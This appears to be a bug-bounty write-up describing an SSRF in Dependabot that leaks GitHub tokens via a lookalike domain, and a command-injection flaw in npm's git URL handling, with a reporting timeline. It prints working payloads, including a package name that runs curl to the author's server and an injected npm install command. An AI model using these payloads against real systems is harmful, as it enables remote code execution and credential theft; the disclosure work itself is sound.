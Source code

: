```yaml
---
title: "Diving into Dependabot along with a bug in npm"
date: 2021-07-12T23:30:00+09:00
---
```


If you are developing some applications on GitHub, you might have seen pull requests from Depedabot.
It automatically finds outdated vulnerable packages and sends pull requests to fix that.

![](screenshot1.png)

It is enabled by default and can make a commit on `dependabot/*` branch of many repositories on GitHub.
Therefore, I thought If I could gain a controll of Dependabot, I can steal write permissions of those repositories.
So I started to look into Dependabot.

# SSRF in Dependabot

The core module of the Dependabot is open-sourced (<https://github.com/dependabot/dependabot-core>), so we can use Dependabot outside of GitHub.
To start the investigation, I prepared an local Dependabot environment following [the official sample code](https://github.com/dependabot/dependabot-script).

This sample code requires GitHub access token to fetch the source code of the repository.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb?slice=16:23"></script>

My first idea is to deceiving a Dependabot so that the bot will sends the token to my server instead of GitHub.
This idea seems possible because there are flaws in URL validations.

One of the validations is to check whether the URL contains `github.com` or not.
Obviously, this validation accepts a URL such as `github.com.mocos.kitchen`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=7:8"></script>

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/f5151ed385a267a13c6778dec5197af574f39d92/common/lib/dependabot/git_metadata_fetcher.rb?slice=54:55"></script>

Another one uses following regexp which accepts a URL such as `git+https://github.com.mocos.kitchen/username/repo`.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_parser.rb?slice=27:37"></script>

Based on these tricks, Dependabot treats `git+https://github.com.mocos.kitchen/username/repo` as a valid GitHub's URL.

## Token stealing demo

To proof this concept, I created [a sample repository](https://github.com/tyage/dependabot-test-app) that includes following `package.json` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/package.json"></script>

Next, I updated the `credentials`, `repo_name` and `dependency_name` in [update-scripts.rb](https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb) from the official sample code so that we can run dependency checker against the sample repository I created.
When I run the script, my server - `github.com.mocos.kitchen` - received a request containing GitHub Access Token.

It means, if someone run a dependency checker against malicious repository, their GitHub Access Token will be stolen!

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.142.0 excon/0.79.0 ruby/2.6.6 (x86_64-darwin20) (+https://github.com/dependabot/dependabot-core)
Authorization: Basic eC1hY2Nlc3MtdG9rZW46Z2hw*************************************
Accept-Encoding: deflate, gzip
```

## First dive into a Dependabot server

Next, in order to try this attack in GitHub environment, I enabled Dependabot alerts in the sample repository.
We can do this by simply creating a `.github/dependabot.yml` file.

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/.github/dependabot.yml"></script>

I successfully received a HTTP request from a Dependabot in GitHub.
But contrary to my expectation, there is no GitHub Access Token in the request.
Afterwards, it turns out that those servers are using special HTTP proxy which enalbes the bot to access target repository without GitHub Access Token.

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.156.4 excon/0.83.0 ruby/2.7.1 (x86_64-linux-gnu) (+https://github.com/dependabot/dependabot-core)
Accept-Encoding: gzip
```

I couldn't steal the token from GitHub's Dependabot server by SSRF, but after some investigation, I found another bug.

# Get the shell of a Dependabot server

When I tried some payload, I came across with a pattern that triggers a shell command in Dependabot server.
With the package name `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);?/...`, a shell command `curl$IFS@mocos.kitchen:3001` was executed and we could see the request!

<script src="https://gist-it.appspot.com/https://github.com/tyage/dependabot-test3/blob/a81ac0bb60ac5aad66fa3191b5276f633a6d421d/package.json"></script>

I got the shell of the Dependabot server suddenly, but unfortunately, what we can do in the server is limited.
Here is what I could do:

- Access to the internal HTTP proxy which enables us to access to the target GitHub repository
- Access to the internal API server which enalbes us to create a pull request as a Dependabot
- Bitcoin mining :)

Therefore, we couldn't obtain read/write access of other user's repository.
(If we can pwn the internal HTTP proxy or API server, it will allow us to escalate the permission, I guess.)

Even though I couldn't get the access to other user's repository, I could impersonate as a verified Dependabot account and create a commit and pull request by calling internal API.

<https://github.com/tyage/dependabot-test3/pull/31>

![https://github.com/tyage/dependabot-test3/pull/31](screenshot2.png)

![https://github.com/tyage/dependabot-test3/pull/31](screenshot3.png)

## RCE in npm

By the way, what was happend to Dependabot when I changed the package name to `https://github.com/tyage/;$(curl$IFS@mocos.kitchen:3001);...`?
I found that the command was executed in `run_npm_7_top_level_updater` method.
In this method, the bot runs `npm install` command with `--ignore-scripts --package-lock-only` arguments so that it can see if the lock file is updated without running install scripts.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/npm_and_yarn/lib/dependabot/npm_and_yarn/file_updater/npm_lockfile_updater.rb?slice=182:193"></script>

Therefore, I thought Dependabot doesn't escape the arguments, but it does properly escapes all command arguments.

<script src="https://gist-it.appspot.com/https://github.com/dependabot/dependabot-core/blob/2f0db3e851ba2cc43d0b6dcd70da5e69d5b63eb6/common/lib/dependabot/shared_helpers.rb?slice=273:274"></script>

So I manually run `npm install` command to see what was happened and...

```
$ npm install 'git+https://github.com/tyage/sample-package;echo HELLO > a;' --ignore-scripts
npm ERR! code 127
npm ERR! command failed
npm ERR! command git ls-remote ssh://git@github.com/tyage/sample-package;echo HELLO > a; .git
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd HEAD
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/heads/main
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/4.0.0
npm ERR! 8b7e1769b6df4461c8e89e6d0a2035c4512409cd refs/tags/5.0.0
npm ERR! zsh:1: command not found:  .git

npm ERR! A complete log of this run can be found in:
npm ERR!     /Users/tyage/.npm/_logs/2021-04-06T09_39_20_675Z-debug.log
$ cat a
HELLO
```

Yes, the bug is in npm!
Even if there is a `--ignore-scripts` option, we can execute a shell command injected in a package name!

When we call `npm install` command with `git+https://...` package name, `git ls-remote` command is triggered using `child_process.spawn` method.

<script src="https://gist-it.appspot.com/https://github.com/npm/cli/blob/dedb9c8f8b0891b30aa76e60cdb1c4f0f9b2f22f/node_modules/%40npmcli/promise-spawn/index.js?slice=35:36"></script>

Also, if `child_process.spawn` method is called with `shell` option, [the command will be run inside of the shell](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options).

npm passes `opts` variable, which contains npm config, as an option argument.
It means `opts.shell` is same with [`shell` config](https://docs.npmjs.com/cli/v7/using-npm/config#shell) which default value is a `$SHELL` environment variable or `bash` on Posix

You can see your config of the npm with `npm config` command.

```
$ npm config get shell
/bin/zsh
```

Summarizing the above, npm calls `child_process.spawn` so that they can execute `git ls-remote 'git+https://....'`, but since they set the `shell` option, malicious shell command - starts from `;` or `$(` - in the package name is evaluated.

I reported this bug to the teams and [it was resolved in npm 7.10.0](https://github.com/npm/git/pull/29).
I asked if they issue CVE but they answered they will not.

# Timeline

I reported SSRF to Dependabot and RCE to npm, and received bounties $617 and $7,500 respectively.

Interestingly, both of them are in the scope of [GitHub Bug Bounty Program](https://hackerone.com/github).

Report to Dependabot:

- **2021/03/31 08:50:30 UTC** Reported Dependabot issue
- **2021/04/23 09:54:22 UTC** Bounty Rewarded

Report to npm:

- **2021/04/06 10:23:49 UTC** Reported npm issue
- **2021/04/07 17:53:57 UTC** Issue triaged
- **2021/04/28 19:41:59 UTC** Issue patched
- **2021/05/04 14:42:21 UTC** Bounty Rewarded
